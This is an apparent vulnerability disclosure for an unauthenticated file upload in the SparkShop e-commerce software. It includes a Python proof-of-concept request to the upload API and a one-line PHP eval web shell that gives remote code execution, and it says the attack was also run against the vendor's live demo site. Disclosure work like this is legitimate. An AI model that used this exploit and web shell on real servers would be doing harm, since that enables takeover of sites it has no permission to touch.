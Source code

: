 ### BUG_Author:

Rui Jie

### Affected version:

All

### Vendor:

Nanjing Xingyuantu Technology Co. 
https://www.sparkshop.cn/
### Software:

https://gitee.com/sparkshop/sparkshop
https://github.com/nick-bai/sparkshop

### Vulnerability File:

app/api/controller/Common.php

### Description:
File upload api with unauthorised access exists in all versions
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271558047.png)
And there's no security check on the file upload part
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271559268.png)
We can upload any file via unauthorised api for RCE purposes.
Here I have simply written a python-poc
```
import requests  
url='http://127.0.0.5/api/Common/uploadFile?XDEBUG_SESSION_START=17625'  
file={'file':open('D://shell.php','rb')}  
r = requests.post(url,files=file)  
print(r.text)
```
The contents of shell.php is just a plain old Trojan horse.
```
<?php eval($_POST[1]);?>
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271602668.png)
Direct upload successfully returned the file address
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271603682.png)
We achieved RCE by uploading a malicious php script

Meanwhile, I tested the official demo site and it can also achieve rce
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271735213.png)
